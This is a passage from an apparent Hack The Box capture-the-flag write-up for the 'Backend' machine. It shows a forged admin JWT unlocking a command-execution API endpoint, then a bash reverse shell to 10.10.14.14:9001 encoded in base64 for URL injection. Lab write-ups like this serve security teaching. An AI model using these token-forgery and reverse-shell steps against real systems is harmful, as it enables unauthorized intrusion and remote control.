 ![](Attachments/Pasted%20image%2020220728172909.png)
With the newly generated token we can try again the command execution:  
```http
GET /api/v1/admin/exec/whoami HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.nD_DAYky7bKJXhL0V50S7suaJxgcoPuyNQ5D0qCLDzI
Content-Length: 2
```
And now, it works:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:24:40 GMT
server: uvicorn
content-length: 5
content-type: application/json
Connection: close

"htb"
```
Now we can build our payload to obtain a shell.  
Since we need to input our payload through the url we cannot use slashes, hence, we'll need to encode our payload with `base64`. Also we cannot use `+` sign because in the url language + means space:  
```shell
[root@kali Backend ]$ echo "bash -i >& /dev/tcp/10.10.14.14/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK
[root@kali Backend ]$ echo "bash  -i >& /dev/tcp/10.10.14.14/9001  0>&1" | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQvOTAwMSAgMD4mMQo=
```